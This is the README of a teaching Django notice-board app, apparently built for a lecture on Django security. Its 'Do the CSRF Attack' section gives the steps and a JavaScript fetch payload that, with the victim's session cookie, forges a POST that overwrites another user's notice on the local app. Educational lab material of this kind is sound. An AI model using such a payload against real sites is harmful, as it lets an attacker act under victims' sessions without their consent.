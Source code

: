 # board

## Table of Contents

1. [Overview](#overview)
    - [Demonstration Video](#demonstration)
2. [Installation](#installation)
    - [Prerequisites](#prerequisites)
    - [Cloning the Repository](#cloning-the-repository)
    - [Run the application](#run-the-application)
    - [Sample users](#sample-users)
    - [Stop the application](#stop-the-application)
3. [Do the CSRF Attack](#do-the-csrf-attack)
    - [Demonstration Video](#demonstration)
4. [Features](#features)
    - [Functional Requirements](#functional-requeriments)
    - [Non-functional Requirements](#non-functional-requirements)
5. [What have I learned?](#what-have-i-learned)

## Overview

board is a minimalist notice board built using [HTML](https://developer.mozilla.org/en-US/docs/Web/HTML), [Tailwind CSS](https://tailwindcss.com/), [Django](https://www.djangoproject.com/), [MySQL](https://www.mysql.com/), [phpMyAdmin](https://www.phpmyadmin.net/) and [Docker](https://www.docker.com/). 

This web application was used to give a lecture on the operation of Django and its security mechanisms. This lecture covers topics such as user authentication, URL protection, Middleware, CORS and CSRF Attack/Defense strategies.

### Demonstration

<video src="https://github.com/antonioalanxs/board/assets/79718376/a3d8ddd6-486b-4007-bb52-db1aba3a1e6f" alt="Application Video Demonstration"></video>

## Installation

### Prerequisites

Have [Docker](https://docs.docker.com/engine/install/) installed on your machine.

### Cloning the Repository

```shell
git clone https://github.com/antonioalanxs/board
cd board
```

### Run the application

```shell
cd docker
docker compose up --build
```

The application is now running on your [localhost:8000](http://localhost:8000). Additionally, phpMyAdmin is running on your [localhost:8080](http://localhost:8080) with credentials `user` and `password`.

### Sample users

| User               | Username      | Password             |
| :----------------: | :-----------: | :------------------: |
| **@antoniomanuel**         | antoniomanuel         | `a`        |
| **@teresavrod**          | teresavrod          | `a`             |
| **@antonioalanxs** | antonioalanxs | `a` |

### Stop the application

```shell
docker compose down
```

The application was turned off.

## Do the CSRF Attack



1.  [Run the application](#run-the-application) and log in with an [user](#sample-users). This will cause the browser to save its `sessionid`.
  
2.  Select the `slug` of the user's notice that you want to edit attacking it. You can do this using [phpMyAdmin](http://localhost:8080) or by looking at the notice URL.

3.  Change current working directory to `attack-server` and Run Attack Server on [localhost:5500](http://localhost:5500) (e.g., `python -m http.server 5500`).

4.  Go to [localhost:5500](http://localhost:5500) and the Attack Server will execute the following code:

    ```javascript
    const slug = "3e2e62cf-35f2-4d8e-9244-8649a4748c52" // Example user's notice slug
    
    fetch(`http://localhost:8000/update/${slug}`, {
        method: "POST",
        credentials: "include", // sessionid Cookie stored in the browser previously when logging in the application
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
        },
        body: "title=attacker&content=attacker"
    })
        .then(res => res.text())
        .then(text => console.log(text))
        .catch(err => console.error(err));
    ```

### Demonstration

<video src="https://github.com/antonioalanxs/board/assets/79718376/7194f1a5-bd2e-4bb7-8920-38da6725c05f" alt="Attack Video Demonstration"></video>

## Features

### Functional Requeriments

- **Registration**: New users can easily register by providing essential information.
  
- **Login**: Users can log in securely to access their shopping list.
  
- **Skip Login (Auto-Login)**: For returning users, the application provides a convenient option to skip the login process.
  
- **Logout**: Users can log out at any time to secure their account and data.

- **Read a Notice**: Users can view the contents of a notice in a readable format, enabling them to stay informed about important information or updates shared within the application.

- **Publish a Notice**: Users can write a notice in a very simple manner.
  
- **Delete a Notice**: Users can remove notices with a single click.

- **Edit a Notice**: Users have the flexibility to modify their notices, allowing them to update information or make corrections as needed.

### Non-functional Requirements

- **Minimalistic and User-Friendly Interface:** The application boasts a clean and intuitive design, providing an exceptional user experience (UX).

- **Responsive Design**: Ensured optimal viewing and interaction across various devices, enhancing accessibility.

- **Legal Compliance:** The application strictly follows the laws and regulations of each country in which it is used.

- **Scalability:** Built to handle a growing user base and data efficiently.

- **Availability:** Ensures the application is available and accessible to users when needed.

- **Data Durability with SQL Database:** Guarantees the persistence and reliability of user data by leveraging a SQL database, ensuring robust storage and retrieval capabilities.

## What have I learned?

- **Better understanding and management of Docker**: Gained proficiency in handling Docker containers, enhancing the distribution of applications.

- **Usage of phpMyAdmin**: Acquired skills in utilizing phpMyAdmin for MySQL database management, facilitating data visualization and administration.

- **Seeder usage for database initialization**: Learned to use seeders to populate and initialize the database with test data, aiding in development and testing phases.

- **Improved understanding of Django architecture**: Enhanced comprehension of Django's framework architecture for more effective and scalable web application development.

- **Middleware utilization**: Learned how to use middlewares in the context of Django, allowing customization and extension of web application's behavior.

- **Understanding CORS (Cross-Origin Resource Sharing)**: Acquired knowledge about how CORS works and its significance in web development. Learned how to handle and configure CORS to enable secure communication between different origins in the context of web applications.

- **CSRF Attack and Defense Strategies**: Explored the concept of Cross-Site Request Forgery (CSRF) attacks and gained insights into both launching and defending against such attacks. Developed strategies to implement CSRF protection measures in web applications, ensuring the security of user data and interactions.

- **Enhanced communication skills**: Strengthened communication abilities through giving the lecture, enhancing my ability to communicate ideas effectively.

